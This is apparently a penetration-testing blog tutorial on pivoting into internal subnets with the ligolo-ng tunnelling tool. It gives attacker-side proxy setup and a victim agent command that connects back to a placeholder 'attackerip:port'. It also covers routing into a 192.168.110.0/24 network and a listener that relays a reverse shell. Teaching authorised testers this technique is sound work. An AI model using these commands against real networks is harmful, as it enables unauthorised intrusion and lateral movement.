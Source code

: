 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via `git clone https://github.com/nicocha30/ligolo-ng.git` . 

You can then proceed to start, add and start the proxy server via these  commands.

Attacker Machine:
```shell
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod + proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```shell
./proxy -selfcert -laddr 0.0.0.0:443
```


![](/assets/images/ligolo/1.png)

Victim Machine (Windows or Linux):

Upload the respective file. 
```shell
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![](/assets/images/ligolo/2.png)

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```shell
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![](/assets/images/ligolo/3.png)

For this machine you must also run ```
```shell
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![](/assets/images/ligolo/4.png)

It also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is must faster than a SOCKS proxy.

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```


